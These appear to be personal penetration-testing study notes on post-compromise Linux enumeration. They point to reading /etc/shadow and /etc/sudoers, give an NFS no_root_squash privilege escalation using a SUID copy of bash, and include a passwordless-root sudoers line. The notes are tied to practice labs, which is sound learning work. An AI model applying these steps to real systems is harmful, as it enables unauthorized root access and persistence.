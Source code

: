 # Compromise a Linux host

Aside from commands that are in the Linux notes, here are a few used in cybersecurity.

<div class="row row-cols-md-2"><div>

* `w`: who is logged in, and what they are doing
* `who`: who is logged in
* `echo $0`: language used by the current shell
* `whoami`: username
* `last`: list of last logged users
* `id`: username, group...
* `groups`: list groups
* `uname -a`: info about the kernel
* `hostname`: info about the host <small>(ex: `website-dev` -> role of the user)</small>
* `ps -e` / `top`: see running process
* `env`: see environment variables
* `umask`: see the default perms on newly created files
* `finger`: return a summary of information about a user
* `find / -writable -type d 2>/dev/null`: find writable directories

**Potentially vulnerable services** 💸

* Apache: `apache2 -v` / `apache2ctl -M`
* Sudo: `sudo -V`
* PostgresSQL: `psql -V`
* MySQL: `mysql --version`
</div><div>

System Files 🔏

* `/proc/version`: information about the machine
* `/etc/*release`: information about the operating system
* `/etc/issue`: an alternative to find the OS/version
* `/etc/passwd`: usernames, their groups, their home, and their shell
* `/etc/shadow` <small>(root)</small>: username, and their hashed password
* `/etc/sudoers` <small>(root)</small>: sudoers, and rules applied to them, if any

Others 🔎

* Port and services: `/etc/services`
* Environment variables: `/etc/profile`

</div></div>

> **NOTE**: don't forget to redirect any errors with `some_command 2> /dev/null`.

<hr class="sep-both">

## Network File System (NFS)

[![kenobi](../../_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-md-2"><div>

To avoid copying and pasting information too much, you will have to read these pages for more information.

* [NFS protocol](/_it/networking/protocols/index.md#-nfs---2049-tcp)
* [NFS notes](/_cybersecurity/exploitation/services/index.md#nfs---2049-tcp)

To summarize, locally, you can use this command to find NFS shares.

```bash
# see NFS exports
$ cat /etc/exports
```
</div><div>

You will find an exploitable NFS misconfiguration when the option `no_root_squash` is set for a share. Root squashing map any local user to the user "nobody". If disabled, then the root user on the local machine will have root privilege inside the share.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

Courses

* [payatu.com](https://payatu.com/guide-linux-privilege-escalation)
* [udemy.com](https://www.udemy.com/course/linux-privilege-escalation/)
* `$(whoami)  ALL=(ALL) NOPASSWD:ALL`
</div><div>
</div></div>